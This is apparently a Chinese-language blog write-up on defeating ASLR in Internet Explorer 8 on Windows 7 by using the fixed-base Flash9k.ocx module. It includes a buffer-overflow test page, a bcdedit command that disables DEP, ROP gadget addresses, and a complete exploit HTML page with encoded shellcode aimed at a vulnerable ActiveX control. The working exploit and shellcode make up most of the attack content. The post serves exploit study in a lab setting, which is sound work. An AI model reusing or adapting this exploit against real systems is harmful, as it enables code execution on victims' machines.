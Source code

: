 ```yaml
---
layout:		post
title:		攻击未启用ASLR的模块
author:		wooy0ung
tags:		
category:  	exploit
---
```



>[分析环境]  
>系统: Windows 7 Professional sp0 x86  
>编译器: Visual Studio 2008  
>调试器: OllyDbg 1.10  
>浏览器: Internet Explorer 8  
>Flash Player ActiveX: 9.0.262  
>注意: 关闭系统DEP  
<!-- more -->


### 0x00 前期准备

确定Flash9k.ocx加载基址是否固定不变, 重启前

![](/assets/img/exploit/2017-12-30-break-aslr-by-unaslr/0x00.png)

重启后

![](/assets/img/exploit/2017-12-30-break-aslr-by-unaslr/0x01.png)

然后注册*.ocx, 这里可以用VulnerAX_DEP.ocx

```
<html>  
<body>  
<object classid="clsid:D27CDB6E-AE6D-11cf-96B8-444553540000" codebase="http://download.macromedia.com/pub/shockwave/cabs/flash/swflash.cab#version=9,0,28,0" width="160" height="260">
  <param name="movie" value="1.swf" />
  <param name="quality" value="high" />
  <embed src="1.swf" quality="high" pluginspage="http://www.adobe.com/shockwave/download/download.cgi?P1_Prod_Version=ShockwaveFlash" type="application/x-shockwave-flash" width="160" height="260"></embed>
</object>
<object classid="clsid:39F64D5B-74E8-482F-95F4-918E54B1B2C8" id="test"></object>  
<script>  
var s = "\u9090";
while (s.length < 54) {
s += "\u9090";
}
s += "\u9090\u9090";
test.test(s);  
</script>  
</body>  
</html>
```

准备test.html文件, 贴入以上内容

![](/assets/img/exploit/2017-12-30-break-aslr-by-unaslr/0x02.png)

来到这里OD附加上去

![](/assets/img/exploit/2017-12-30-break-aslr-by-unaslr/0x03.png)

EIP已经被覆盖成0x90909090


### 0x01 构造rop

避免DEP干扰实验, 先关掉

```
> bcdedit.exe/set {current} nx AlwaysOff
``` 

![](/assets/img/exploit/2017-12-30-break-aslr-by-unaslr/0x04.png)

然后构造rop, 在Flash9k.ocx空间找到两条jmp esi(0xFFE6)指令

![](/assets/img/exploit/2017-12-30-break-aslr-by-unaslr/0x05.png)

0x100A5FC7处含有未知指令C7, 只有0x1012E78A能用

![](/assets/img/exploit/2017-12-30-break-aslr-by-unaslr/0x06.png)

这里要读[EAX], 先修复一EAX

![](/assets/img/exploit/2017-12-30-break-aslr-by-unaslr/0x07.png)

找到一条mov eax,edx retn 8(0x1014d286)


### 0x02 exploit

完整的exp

```
<html>  
<body>  
<object classid="clsid:D27CDB6E-AE6D-11cf-96B8-444553540000" codebase="http://download.macromedia.com/pub/shockwave/cabs/flash/swflash.cab#version=9,0,28,0" width="160" height="260">
  <param name="movie" value="1.swf" />
  <param name="quality" value="high" />
  <embed src="1.swf" quality="high" pluginspage="http://www.adobe.com/shockwave/download/download.cgi?P1_Prod_Version=ShockwaveFlash" type="application/x-shockwave-flash" width="160" height="260"></embed>
</object>
<object classid="clsid:06BC9528-F8A0-456B-BBBB-09C1248BF827" id="test"></object>  
<script>  
var s = "\u9090";
while (s.length < 54) {
s += "\u9090";
}
s += "\uD286\u1014\u9090\u9090\uE78A\u1012\u9090\u9090";
s += "\ud231\u30b2\u8b64\u8b12\u0c52\u528b\u8b1c\u0842\u728b\u8b20\u8012\u0c7e\u7533\u89f2\u03c7\u3c78\u578b\u0178\u8bc2\u207a\uc701\ued31\u348b\u01af\u45c6\u3e81\u6146\u6174\uf275\u7e81\u4508\u6978\u7574\u8be9\u247a\uc701\u8b66\u6f2c\u7a8b\u011c\u8bc7\uaf7c\u01fc\u68c7\u2067\u0120\u7968\u7530\u686e\u7720\u6f6f\ue189\u49fe\u310b\u51c0\uff50\u90d7";
test.test(s);  
</script>  
</body>  
</html>
```

pwn~

![](/assets/img/exploit/2017-12-30-break-aslr-by-unaslr/0x08.png)